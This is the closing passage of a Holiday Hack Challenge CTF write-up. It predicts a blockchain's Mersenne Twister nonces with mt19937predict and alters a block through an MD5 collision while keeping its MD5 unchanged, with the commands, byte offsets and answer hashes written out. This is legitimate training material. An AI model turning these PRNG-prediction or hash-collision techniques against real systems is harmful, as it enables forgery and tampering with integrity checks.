Running the script again produces all blocks up to 129996, giving us a total of 1548 blocks.<br>
Next extract the Nonces:<br>
<i><b><span style="color:orange">./naughty_nice.py > output<br>
cat output | grep Nonce > nonces<br>
cat nonces |cut -c 22-38 > real_nonces</span></i></b><br>

Running these commands gives a total of 1548 nonces, but this needs to be cutdown to 624 for the Mersene Twister.  This is done by removing all Nonces before 925.<br>
However because the Mersene Twister is 32-bit, the nonces need to be converted from hex to binary and split into upper an lower.  This means the 624 needs to be cut to 312, so all Nonces before 1237 need to be removed.

Following code will produce 312 upper and 312 lower 32 bit numbers, one right after another. This should be run and outputted to a file<br>
<i><b><span style="color:orange">f = open('real_nonces', "r")
<br>lines = f.readlines()
<br>for g in lines:
<br>&nbsp;&nbsp;&nbsp;&nbsp;s = int(g,16)
<br>&nbsp;&nbsp;&nbsp;&nbsp;    o =  s & 0xffffffff
<br>&nbsp;&nbsp;&nbsp;&nbsp;    i = (s >> 32)
<br>&nbsp;&nbsp;&nbsp;&nbsp;    print(o)
<br>&nbsp;&nbsp;&nbsp;&nbsp;    print(i)</span></i></b><br>

Using these numbers it can be run against the Merene Twister and predict the next 16 bit numbers (upper and lower).  Challenge states nonce 130000 and the output ended at 129996, so run the following command and grab the last two numbers needed: <br>
<i><b><span style="color:orange">cat converted_split_nonces | mt19937predict | head -n 8</span></b></i><br>

From python cli, the hex number for nonce 130000 can be determined by converting the upper and lower halves back and combining, then converting decimal to hex:
<i><b><span style="color:orange">a = 4079973021<br>
b = 1460036376<br>
c = b << 32 | a<br>
hex(c)</span></i></b><br>

This yields the answer, which is submitted without the 0x<br>
<i><b><span style="color:orange">0x57066318f32f729d</span></b></i><br>


### <u>Objective 11b: Naughty/Nice List with Blockchain Investigation Part 2</u> ###
***SHA256 of Jack's altered block is: 58a3b9335a6ceb0234c12d35a0564c4e f0e90152d0eb2ce2082383b38028a90f What is the SHA256 of the original block that was altered by changing only 4 bytes?***<br>

Still using the <i>blockchain.dat</i> file, it can be determined it holds PDF files by using strings.  Seeing that the SHA256 of the block is required for the answer, it seems the individual blocks can be saved to file as well.  The code <i>dump_doc</i> and <i>save_a_block</i> can be used to do this as stated in the <i>naughty_nice.py</i> script<br>

With this information the for loop in the script can be updated to not only print the blocks, but also write the PDF and block files by adding this code:<br>
<i><b><span style="color:orange">c2.blocks[i].dump_doc(1)<br>
        &nbsp;&nbsp;&nbsp;&nbsp;c2.save_a_block(i,'%xblock.dat'%i)</span></i></b><br>

This creates a lot of files so move the .pdf and .dat files to individual subfolders.  Then run the following in the folder containing the .dat files:<br>
<i><b><span style="color:orange">sha256sum * | grep 58a3b9335a6ceb0234c12d35a0564c4e</span></i></b><br>

This produces a result of <i><b>3f2block.dat</i></b> to match. Copying this file up a folder in order to later work with, it's notice a file <i><b>129459.bin</i></b> is present.  Examining that file with strings and the blockfile, it's determined that two files should have been extracted when running the original script.  However only the bin file was and the PDF 129459 wasn't as it's not in the pdf folder.  

To obtain the pdf, it must be extracted from the blockfile.  First comment out the pdf/dat file writes in the naughty nice script.  Then run the script with the following options:<br>
<i><b><span style="color:orange">python3 naughty_nice.py | grep -A 20 129459 > 129459.block</span></i></b><br>

That command extracts the necessary information to a temp file.  Next is to remove all data from that temp file except for the actual data from Data Type 2 (I did this from a text editor).  Next:
1. Create a new file called 129459.pdf with at least 1 byte of data
2. Copy the data from the temp file
3. Run hexedit against that newly create file
4. Paste the copied data into the hex editor, overwriting that one byte of data, and save

The missing PDF should now open<br>
<br>

Before making any changes, take note of some file information:
1. md5sum 3f2block.dat = b10b4a6bd373b61f32f4fd3a0cdfbf84 (This should not change when making the first 2 byte change or the final 4 byte changes)
2. sha256sum 3f2block.dat = 58a3b9335a6ceb0234c12d35a0564c4ef0e90152d0eb2ce2082383b38028a90f (This should change and final answer is derived from this)

For next and final steps, it's recommended to review the slides <a href="https://speakerdeck.com/ange/colltris">here</a>.  For what to do, page 194 contains the how to make changes and recommended to download as a PDF and zoom in. <br>
<br>
<br>

So first follow in the slide what's easy to read and update the Pages from 2 to 3 using hexedit for the pdf file.  This will change the output of the pdf to the following<br>
<br>

Now decrease the byte 40 bytes off from where you made the first change.  In this instance, the first change was at 3F, so the next change is at 7f.  The value there is 1C, so it needs to be decreased to 1B<br>
<br>

Making these same 2 byte changes to the .dat file should no change the md5sum.  While the 40 byte offset remains, where the changes are made will be different.<br>

For the next changes, look at the block again using the script.  It would seem that it's necessary to change the Sign from Nice (1) to Naughty (0) since Jack needs to be added to that list<br>
<br>

This requires to make the change using hexedit at offset 49, decreasing the byte from 30 to 31.  Like the other change to the PDF, move to the 40 byte offset and this time increase by one byte<br>
<br>

These changes do not alter the md5sum of the block, but a new sha256sum is displayed which is our answer<br>
sha256sum 3f2block.dat = <i><b><span style="color:orange">fff054f33c2134e0230efb29dad515064ac97aa8c68d33c58c01213a0d408afb</span></b></i><br>
<br>

# Thanks for the challenges Holiday Hack crew!!! <br>
<br>
<br>
Full Narrative
```
KringleCon back at the castle, set the stage...
But it's under construction like my GeoCities page.
Feel I need a passport exploring on this platform -
Got half floors with back doors provided that you hack more!
Heading toward the light, unexpected what you see next:
An alternate reality, the vision that it reflects.
Mental buffer's overflowing like a fast food drive-thru trash can.
Who and why did someone else impersonate the big man?
You're grepping through your brain for the portrait's "JFS"
"Jack Frost: Santa," he's the villain who had triggered all this mess!
Then it hits you like a chimney when you hear what he ain't saying:
Pushing hard through land disputes, tryin' to stop all Santa's sleighing.
All the rotting, plotting, low conniving streaming from that skull.
Holiday Hackers, they're no slackers, returned Jack a big, old null!
```